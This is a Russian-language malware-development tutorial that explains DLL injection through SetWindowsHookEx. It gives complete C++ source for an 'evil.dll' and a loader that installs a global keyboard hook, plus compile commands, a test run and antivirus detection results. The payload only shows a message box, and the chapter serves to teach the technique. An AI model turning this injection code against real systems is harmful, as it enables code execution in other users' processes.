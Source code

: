 \newpage
\subsection{17. классическая DLL-инъекция через SetWindowsHookEx. Простейший вредонос на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ

![dll injection](./images/25/2021-11-24_18-00.png){width="80%"}    

В этом уроке я рассмотрю DLL-инъекцию с использованием метода `SetWindowsHookEx`.

### SetWindowsHookEx

Давайте рассмотрим пример, демонстрирующий этот метод. Функция `SetWindowsHookEx` устанавливает перехватчик в цепочку хуков, который затем вызывается при возникновении определенных событий. Давайте посмотрим на синтаксис функции:

```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Наиболее важным параметром здесь является `idHook`. Это тип устанавливаемого хука, который может принимать одно из следующих значений:

- `WH_CALLWNDPROC`
- `WH_CALLWNDPROCRET`
- `WH_CBT`
- `WH_DEBUG`
- `WH_FOREGROUNDIDLE`
- `WH_GETMESSAGE`
- `WH_JOURNALPLAYBACK`
- `WH_JOURNALRECORD`
- `WH_KEYBOARD`
- `WH_KEYBOARD_LL`
- `WH_MOUSE`
- `WH_MOUSE_LL`
- `WH_MSGFILTER`
- `WH_SHELL`
- `WH_SYSMSGFILTER`

В нашем случае я буду перехватывать события типа `WH_KEYBOARD`, что позволит нам отслеживать нажатия клавиш.

### вредоносная DLL

Давайте подготовим нашу вредоносную DLL. Для простоты создадим DLL, которая просто покажет всплывающее окно с сообщением:

```cpp
/*
evil.cpp
simple DLL for DLL injection
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}
```

Как видите, у нас довольно простая DLL. Функция `DllMain()` вызывается при загрузке DLL в адресное пространство процесса. Также есть экспортируемая функция `Meow()`, которая просто показывает всплывающее сообщение *"Meow from evil.dll!"*.

### пример. простой вредоносный код.

Далее нам нужно создать наш вредоносный код. Давайте посмотрим исходный код:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

Это также довольно просто. Прежде всего, мы вызываем `LoadLibrary`, чтобы загрузить нашу вредоносную DLL:    

![dll injection 2](./images/25/2021-11-25_15-35.png){width="80%"}    

Затем мы вызываем `GetProcAddress`, чтобы получить адрес экспортированной функции `Meow`:    

![dll injection 3](./images/25/2021-11-25_15-36.png){width="80%"}    

После этого наш вредоносный код вызывает самую важную функцию - `SetWindowsHookEx`. Параметры, передаваемые в эту функцию, определяют, что именно она будет делать:   

![dll injection 4](./images/25/2021-11-25_15-40.png){width="80%"}    

Как видно, при каждом событии клавиатуры будет вызываться наша функция. Мы передаем адрес нашей экспортированной функции - параметр `meowFunc`. Также мы передаем дескриптор нашей DLL - параметр `meowDll`. Последний параметр `0` указывает, что мы хотим установить глобальный хук для всех программ, а не только для одной конкретной.    

Затем мы вызываем `Sleep`:

![dll injection 5](./images/25/2021-11-25_15-44.png){width="80%"}    

чтобы продемонстрировать, что наш хук работает.

Затем вызываем функцию `UnhookWindowsHookEx()`, чтобы убрать ранее установленный хук `WH_KEYBOARD`:  

![dll injection 6](./images/25/2021-11-25_15-46.png){width="80%"}    

Теперь, когда мы разобрались с кодом вредоносной программы, мы можем протестировать его.    
Сначала скомпилируем вредоносную DLL:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](./images/25/2021-11-25_15-48.png){width="80%"}    

Компилируем код вредоносной программы:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![dll injection 8](./images/25/2021-11-25_15-50.png){width="80%"}    

Затем проверяем всё в действии! Запускаем наш `hack.exe` на целевой машине (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](./images/25/2021-11-25_15-54.png){width="80%"}    

Мы видим, что всё выполнено успешно, и на этом этапе при запуске программы наше всплывающее сообщение появляется только при нажатии клавиши на клавиатуре.

### Заключение

В этом разделе я продемонстрировал, как мы можем использовать функцию `SetWindowsHookEx` для внедрения DLL в адресное пространство процесса и выполнения произвольного кода внутри него.    

Однако есть одно предостережение. Этот метод не работает на моей машине с Windows 10 x64. Я думаю, причина в следующем: CIG блокирует этот метод. Windows 10 x64 имеет два важных механизма:

- **CFG (Control Flow Guard)** – предотвращает косвенные вызовы на неразрешённые адреса.
- **CIG (Code Integrity Guard)** – разрешает загрузку в память процесса только модулей, подписанных Microsoft/Microsoft Store/WHQL.    

В [этой](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) презентации с BlackHat USA 2019 авторы объясняют, что CIG блокирует этот метод.    

Давайте загрузим наш `hack.exe` на virustotal:

![dll injection 10](./images/25/2021-11-26_03-02.png){width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**Итак, 5 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[исходный код на Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
